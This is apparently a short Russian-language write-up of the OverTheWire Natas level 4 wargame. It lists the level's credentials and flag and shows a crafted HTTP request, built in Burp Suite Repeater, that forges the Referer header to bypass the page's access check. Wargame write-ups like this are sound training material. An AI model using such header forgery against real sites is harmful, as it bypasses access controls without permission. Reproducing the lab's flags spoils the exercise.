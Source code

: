# Natas 4
<kbd>Username</kbd> natas4

<kbd>Password</kbd> QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

<kbd>Flag</kbd> 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

Как только логинимся, то видим что нам доступ запрещён и что авторизированные пользователи логинятся с natas5.
Открываем средства разработчка (F12) и смотрим в Network. Там видим несколько HTTP-запросов с кодом 200 и один с 404.

Открываем burp suit, затем просматриваем запросы, после берём любой и оправляем в repeater, где его немного изменяем.
Конечный результат таков:
>GET / HTTP/1.1
>
>Host: natas4.natas.labs.overthewire.org
>
>Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR
>
>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
>
>Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
>
>Referer: http://natas5.natas.labs.overthewire.org/>
>
>Accept-Encoding: gzip, deflate, br
>
>Accept-Language: en-US,en;q=0.9
>
>Connection: close

По итогу нам дают флаг который является паролем для natas 5.